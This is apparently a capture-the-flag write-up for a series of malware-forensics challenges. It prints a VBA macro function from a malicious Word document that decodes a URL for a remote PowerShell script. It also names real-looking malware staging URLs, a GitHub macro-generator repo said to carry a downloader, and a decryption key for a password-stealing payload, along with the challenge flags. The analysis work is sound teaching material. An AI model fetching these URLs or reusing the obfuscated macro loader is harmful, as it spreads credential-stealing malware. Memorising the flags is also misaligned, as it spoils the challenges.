 # Forensics/ malware
## Max Attampts: 3
## Tags: malware,forensics
## Challenge Name: Very EZ-Virus 1
- **Challenge Level**: Easy-Medium  
- **Challenge Points**: 100  
- **Challenge Author**: (0xf4h1m)

### Challenge Description:
I found a Rulebook, but when I opened it, some malicious activity occurred. I suspect it may contain malware. Your task is to find the IOC (Indicator of Compromise) URL where it tries to connect.

**Author**: [Oxf4h1m](https://fb.com/fa11m)
**Download**: [RuleBook.docm]  
**Flag Format**: `BUETCTF{url}`

**Challenge Flag**: `BUETCTF{http://oshi.at/FCED/secret.ps1}`

### Solution 
in vba macro you will find a finction  
```
Function fyuuscgwug() As String
    Dim uylfuwgfugfuwg As String
    Dim utdyqfiyfyuuaku As Integer
    Dim hvjsdgjgscj As Variant
    Dim yfdwuGFGYWGU As Variant
    Dim i As Integer

    hvjsdgjgscj = Array(39, 34, 56, 54, 49, 56, 73, 28, 66, 62, 42, 79, 27, 51, 56, 60, 62, 57, 46, 24, 37, 62, 94, 57, 44, 46, 18, 32, 33, 19, 70, 38, 64, 87, 49, 100, 41, 58, 62, 36, 81, 55, 15, 56, 36, 34, 2, 28, 87, 41, 51, 27, 21, 62, 18, 54, 70, 95, 64, 86, 31, 39, 51, 18, 65, 87, 33, 89, 41, 31, 59, 35, 62, 48, 50, 110, 53, 41, 74, 21, 51, 76, 50, 108, 29, 65, 75, 51, 50, 105, 43, 35, 58, 42, 50, 55, 56, 62, 29, 92, 57, 25, 32, 55, 50, 43, 65, 94, 35, 22, 54, 20, 78, 55, 44, 71, 26, 43, 41, 41, 42, 79, 15, 69, 37, 63, 87, 35, 63, 53, 61, 92, 46, 33, 74, 18, 97, 63, 44, 106, 33, 19, 101, 62, 71, 88, 59, 69, 34, 40, 18, 39, 49, 92, 42, 105, 61, 37, 68, 31, 56, 90, 50, 92, 16, 23, 32, 48, 44, 104, 28, 63, 60, 51, 30, 52, 70, 58, 56, 31, 47, 54, 26, 43, 55, 75, 55, 97, 27, 47, 55, 20, 59, 65, 46, 92, 49, 37, 41, 27, 66, 93, 45, 85, 50, 49, 73, 23, 31, 65, 39, 96, 51, 35, 72, 42, 63, 66, 31, 85, 49, 51, 35, 30)
    yfdwuGFGYWGU = Array(44, 47, 10, 16, 16, 16, 30, 37, 7, 3, 23, 32, 38, 16, 47, 5, 36, 46, 20, 46, 28, 8, 5, 8, 32, 35, 48, 48, 32, 50, 3, 27, 19, 16, 17, 8, 24, 11, 15, 29, 19, 10, 50, 47, 29, 37, 50, 37, 3, 40, 15, 21, 44, 5, 34, 11, 30, 24, 2, 22, 34, 32, 22, 47, 24, 32, 33, 26, 24, 40, 48, 30, 28, 33, 16, 7, 12, 31, 7, 44, 24, 5, 15, 9, 36, 6, 6, 14, 48, 14, 23, 16, 7, 29, 2, 10, 42, 3, 37, 26, 8, 46, 37, 10, 40, 22, 1, 28, 30, 50, 27, 45, 21, 48, 22, 41, 39, 28, 11, 24, 48, 40, 50, 42, 28, 4, 16, 30, 10, 50, 5, 19, 19, 39, 7, 47, 3, 2, 22, 13, 32, 49, 10, 3, 5, 31, 6, 49, 31, 31, 38, 26, 50, 27, 24, 6, 4, 34, 39, 34, 20, 13, 16, 12, 49, 49, 49, 17, 32, 15, 38, 8, 5, 18, 47, 13, 12, 23, 10, 38, 18, 13, 30, 22, 44, 44, 11, 11, 38, 24, 22, 45, 40, 38, 20, 16, 16, 35, 40, 38, 10, 10, 21, 34, 15, 23, 4, 42, 46, 16, 26, 9, 14, 32, 35, 23, 12, 15, 34, 27, 16, 14, 26, 31)

    uylfuwgfugfuwg = ""

    For i = LBound(hvjsdgjgscj) To UBound(hvjsdgjgscj)
        ' Decode the character
        utdyqfiyfyuuaku = hvjsdgjgscj(i) + yfdwuGFGYWGU(i)
        uylfuwgfugfuwg = uylfuwgfugfuwg & ChrW(utdyqfiyfyuuaku)
    Next i
    
    fyuuscgwug = uylfuwgfugfuwg
End Function
````
Execute this function you will get the flag

---

## Challenge Name: Very EZ-Virus 2
- **Challenge Level**: Easy-Medium  
- **Challenge Points**: 100  
- **Challenge Author**: (0xf4h1m)  
- **Prerequisite**: Very EZ-Virus 1

### Challenge Description:
Find the flag based on the malicious activity discovered in the previous challenge.

**Challenge Flag**: `BUETCTF{M4lw4r3_F0r3ns1cs_R3v34ls_Crypt1c_B3h4v10rs_4nd_H1dd3n_P3rs1st3nc3_M3ch4n1sms}`
### solution: 

open 'http://oshi.at/FCED/secret.ps1' 
you will get `cSZ0JXIldUx8Yz1IY0NiMHVfQ2I/RGA0RDAjYkdiYz1EMHJDSkFFYDQwcWI5Y0dgX0NEMGM/NTB3YDU1Yj8wIWJDRGBERWI/NGIwfGI0OWM/YEQ+RE4=` 
decrypt base64> Rot47 > Plaintext

---

## Challenge Name: Lethal Payload 1
- **Challenge Level**: Easy-Medium  
- **Challenge Points**: 100  
- **Challenge Author**: (0xf4h1m)  
- **Prerequisite**: Very EZ-Virus 2

### Challenge Description:
I want to share a secret with you. To create the malicious document from the previous challenge, I used a tool called `doc-macro-exploit`. However, this tool contains another malware. Your task is to analyze and find the URL from where the malware script is downloaded.
**Flag Format**: `BUETCTF{url}`

**Challenge Flag**: `BUETCTF{https://bananasquad.ru/paste}`
### Solution: 
search tools with name. you will get github repo . in the file `[https://raw.githubusercontent.com/drat/virus-macro-generator/refs/heads/main/makemymacro.py](https://github.com/drat/virus-macro-generator/blob/main/makemymacro.py)` you will get an ecrypted text in line 4. decrypt and get the flag. 

---
## Challenge Name: Lethal Payload 2
- **Challenge Level**: Easy-Medium  
- **Challenge Points**: 150  
- **Challenge Author**: (0xf4h1m)  
- **Prerequisite**: Lethal Payload 1

### Challenge Description:
Analyze and find what is the Decryption Key Of **main** Virus ? 

**Flag Format**: `BUETCTF{base64=}`

**Challenge Flag**: `BUETCTF{uSS2i-KrquUVErKGb1AFc7qQa695Aa_rae36i7Y9wUo=}`

#### Solution 
The Link https://bananasquad.ru/paste is dead but read content from wayback machine. 

---
## Challenge Name: Virus!!
- **Challenge Level**: Easy-Medium  
- **Challenge Points**: 150  
- **Challenge Author**: (0xf4h1m)  
- **Prerequisite**: Lethal Payload 2

### Challenge Description:
Now analyze the the main virus and Determine the type of virus 


**Flag Format**: `BUETCTF{TypeName}`


**Challenge Flag**: 
`BUETCTF{KeyLogger}`
`BUETCTF{PasswordStealer}`
`BUETCTF{PwStealer}`

### Solution: 

Decrypt and analyze with virus total. 
